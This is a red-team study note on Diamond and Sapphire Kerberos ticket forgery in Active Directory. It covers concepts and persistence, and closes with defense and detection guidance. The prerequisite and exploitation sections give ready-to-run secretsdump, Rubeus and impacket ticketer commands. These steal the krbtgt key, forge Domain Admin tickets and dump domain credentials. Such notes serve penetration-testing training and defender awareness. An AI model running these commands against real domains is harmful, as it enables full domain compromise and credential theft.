

# 10 - Diamond and Sapphire Ticket Attacks

## 1. Executive Summary

Golden tickets (forged TGTs) are powerful but **noisy**: a fully fabricated PAC often has tell-tale inconsistencies detectors flag. **Diamond** and **Sapphire** tickets are stealthier evolutions that still require the **krbtgt key**, but instead of forging from scratch they **modify a legitimate, KDC-issued ticket**. Diamond: request a real TGT, decrypt with krbtgt, edit the PAC (add privileged groups), re-encrypt. Sapphire: use **S4U2Self** to obtain a real PAC of a genuinely privileged user and graft it in — so the PAC matches a real account's actual data. Both yield DA-level tickets that blend in far better than golden tickets.

## 2. Concept Overview

A TGT's PAC (containing group SIDs) is encrypted with the **krbtgt** key. **Golden** = build the whole PAC yourself (risk: fields that don't match reality). **Diamond** = decrypt a real TGT you requested, surgically add SIDs (e.g. Domain Admins 512), re-encrypt — keeps all legitimate fields. **Sapphire** = obtain a real privileged user's PAC via S4U2Self and substitute it, so the PAC is genuinely valid for that user. All require krbtgt (so they're post-DA persistence/stealth, not initial escalation).

## 3. Prerequisites / Enumeration

```bash
# Need krbtgt key (RC4/AES) — from DCSync
secretsdump.py -just-dc-user 'domain/krbtgt' domain/admin@<dc>
#   note krbtgt AES256 key + domain SID
```

## 4. Exploitation

```bash
# Diamond ticket (Rubeus) — request real TGT, modify PAC
Rubeus.exe diamond /krbkey:<krbtgt-aes256> /user:lowpriv /password:pw \
  /enctype:aes /ticketuser:Administrator /groups:512 /ptt

# Sapphire ticket (impacket ticketer) — graft a real privileged PAC via S4U
ticketer.py -request -impersonate Administrator -domain domain -domain-sid <SID> \
  -aesKey <krbtgt-aes> -user lowpriv -password pw sapphire

# Use the resulting TGT
klist ; secretsdump.py -k -no-pass domain/Administrator@<dc> -just-dc
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Like golden tickets, valid until **krbtgt is reset twice**; stealthier so longer-lived in practice.

## 7. Post-Exploitation / Data Access
- Full domain access as the impersonated privileged principal, with a PAC that passes more validation.

## 8. Defense & Hardening
1. Protect krbtgt (these all need it); rotate krbtgt **twice** on compromise; restrict DCSync rights (kills the key-theft prerequisite).
2. Detection: correlate TGS without prior AS-REQ, ticket lifetimes vs domain policy, encryption-type anomalies (RC4 where AES expected); Microsoft Defender for Identity heuristics.
3. Enforce AES; monitor S4U2Self for privileged users from unusual hosts (sapphire indicator).

## 9. Chaining & Related Notes
- Builds on **[[15 - DCSync Attack]]** + **[[09 - Golden Ticket Attack]]** / **[[10 - Silver Ticket Attack]]** (A-36) — diamond/sapphire are the stealthy successors.
- Persistence cousins: **[[14 - Skeleton Key and Custom SSP Persistence]]**, **[[13 - SID History Injection]]**.

## 10. Tools
`Rubeus` (diamond), `ticketer.py` (impacket, sapphire/`-request -impersonate`), `secretsdump.py`, `mimikatz`.
